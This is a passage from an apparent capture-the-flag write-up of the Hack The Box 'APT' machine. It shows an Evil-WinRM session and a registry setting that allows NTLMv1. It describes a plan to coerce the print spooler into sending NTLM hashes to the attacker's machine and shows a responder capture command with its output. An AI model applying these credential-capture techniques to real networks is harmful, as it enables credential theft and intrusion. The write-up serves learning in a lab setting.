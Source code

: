 The powershell history file contained something interesting. The administrator credentials had been used to run a scriptblock that set the value of a registry key

```powershell
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\henry.vinson_adm\Desktop> echo $Cred
```

I tried to echo the variable from the command in the history file to see if it still existed. Nope. didnt work. :laugh:

* [https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level)
* [https://itconnect.uw.edu/wares/msinf/other-help/lmcompatibilitylevel/ntlmv1-removal-known-problems-and-workarounds/](https://itconnect.uw.edu/wares/msinf/other-help/lmcompatibilitylevel/ntlmv1-removal-known-problems-and-workarounds/)
* [https://book.hacktricks.xyz/windows/ntlm](https://book.hacktricks.xyz/windows/ntlm) 

Some reasearch revealed some useful information about the registry key that was modified in the command from the history.

> The Network security: LAN Manager authentication level setting determines which challenge/response authentication protocol is used for network logons. This choice affects the authentication protocol level that clients use, the session security level that the computers negotiate, and the authentication level that servers accept.

```text
Send NTLM response only | Client devices use NTLMv1 authentication, and they use NTLMv2 session security if the server supports it. Domain controllers accept LM, NTLM, and NTLMv2 authentication. | 2
```

A value of '2' meant that NTLM hashes would be sent if they were requested by a service. According to [hacktricks](https://book.hacktricks.xyz/windows/ntlm) I could abuse the print spooler service to get the machine to send the hash to my machine, where I could capture it with `responder`.

```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ sudo responder -I tun0 --lm           
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[!] The challenge must be exactly 16 chars long.
Example: 1122334455667788
```

I tried to get `responder` to request LM hashes using the `--lm` argument, but it gave an error telling me to supply a challenge.  The instructions on this hacktricks page are not as well written as a lot of others, but at least `responder` gave a verbose enough error message to fix the problem.
